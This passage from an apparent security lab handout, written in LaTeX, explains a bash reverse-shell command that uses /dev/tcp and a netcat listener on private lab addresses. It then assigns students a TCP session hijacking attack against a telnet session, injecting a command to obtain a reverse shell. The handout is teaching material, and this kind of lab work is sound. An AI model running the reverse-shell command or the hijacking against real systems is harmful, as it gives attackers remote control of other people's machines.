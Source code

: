 \begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.0.2.4/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.0.2.4}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. In Figure~\ref{tcp:fig:reverse_shell_A}, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.8}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.4}. This is confirmed via the \texttt{"Connection 10.0.2.8 accepted"}
message displayed by \texttt{netcat}.

The shell prompt obtained from the connection is now connected to the \texttt{bash} shell. This
can be observed from the difference in the current working directory (printed via
\texttt{pwd}). 
Before the connection was established, the \texttt{pwd} returned
\texttt{/home/seed}. Once \texttt{netcat} is connected to \texttt{bash},  \texttt{pwd} in the
new shell returns \texttt{/home/seed/Documents} (directory corresponding to where
\texttt{/bin/bash} is started from). 
We can also observe the IP address displayed in the shell prompt
is also changed to 10.0.2.8, which is the same as that on the server
machine.
The output from \texttt{netstat} shows the established
connection.

The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. You can use either Netwox or Scapy for this task (using Scapy is
more convenient).




\section{Lab Report}

\seedsubmission



